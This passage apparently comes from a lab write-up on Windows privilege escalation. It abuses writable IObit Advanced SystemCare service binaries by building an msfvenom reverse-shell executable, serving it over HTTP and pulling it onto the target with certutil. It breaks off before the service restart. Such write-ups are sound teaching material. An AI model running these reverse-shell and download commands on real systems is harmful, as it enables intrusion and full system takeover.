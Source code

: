 And i found all the files in a `IObit` directory are owned by `Administrator`, but we can modify them as `bill`, the problem comes when there is a service running some executables of this folder, so we can try to stop the service, modify the `ASCService.exe` executable and start the service again.

Checking the service we can see the binary path `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`, so let's overwrite it and restart the service.

```bash
C:\Program Files (x86)\IObit\Advanced SystemCare>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

So we create a reverse shell with `msfvenom`, output the result as the name of the executable and host the reverse shell in a server.

```bash
❯ msfvenom -p windows/shell/reverse_tcp LHOST=10.11.116.52 LPORT=4443 -f exe -o ASCService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: ASCService.exe
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

After that, we stop the `AdvancedSystemCareService9` service, then transfer the payload to the target using `certutil`.

```bash
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit\Advanced SystemCare>certutil -urlcache -split -f http://10.11.116.52/ASCService.exe
certutil -urlcache -split -f http://10.11.116.52/ASCService.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```
